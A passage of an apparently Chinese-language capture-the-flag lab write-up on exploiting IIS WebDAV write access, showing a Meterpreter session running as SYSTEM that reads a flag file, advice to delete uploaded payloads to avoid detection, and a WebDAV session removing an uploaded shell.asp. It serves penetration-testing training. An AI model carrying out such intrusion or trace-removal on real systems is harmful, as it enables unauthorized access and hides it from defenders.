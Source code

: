 ```
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > search -f flag*
Found 1 result...
    c:\flag.txt (32 bytes)
meterpreter > cat c:\\flag.txt
d3aff16a801b4b7d36b4da1094bee345
```

这是推荐的东西。一旦您获得对目标系统的访问权限，请删除您上传到目标上的任何有效负载或被利用的文件，因为这很容易被检测到。

```
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        AttackDefense.txt                     49  Jan  4  2021
        shell.asp                          38556  Sep 11 16:44
        web.config                           168  Jan  4  2021
dav:/webdav/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> delete shell.asp
Deleting `shell.asp': succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        AttackDefense.txt                     49  Jan  4  2021
        web.config                           168  Jan  4  2021
```

## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-2319.pdf

[davtest](https://github.com/cldrn/davtest)

[Microsoft IIS WebDAV Write Access Code Execution](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp/)

